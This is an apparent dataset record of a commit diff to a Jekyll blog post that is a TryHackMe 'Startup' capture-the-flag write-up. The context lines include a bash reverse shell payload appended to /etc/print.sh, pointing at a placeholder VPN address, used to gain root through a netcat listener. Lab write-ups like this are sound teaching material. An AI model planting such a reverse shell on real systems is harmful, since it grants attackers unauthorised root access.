

Before and after one commit to cryptichacker/cryptichacker.github.io, a Jekyll site: the page built from _posts/2020-11-19-startup.md, in a window 1280 px wide and 900 px high, scrolled down 2783 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded.

Commit message:
Post update

````diff
--- a/_posts/2020-11-19-startup.md
+++ b/_posts/2020-11-19-startup.md
@@ -118,7 +118,7 @@ Append the reverse shell payload into the print.sh file
 <pre> echo "bash -i /dev/tcp/your-vpn-ip-addr/4444 0>&1" >> /etc/print.sh</pre>
 <br>
 
-Open a netcat listener in your local machine and execute the planner script using ```sudo ~/scripts/planner.sh```
+Open a netcat listener in your local machine and wait for a minute to get the reverse shell
 
 <br>
 ![root_flag](/assets/img/tryhackme/startup/17.png)
````
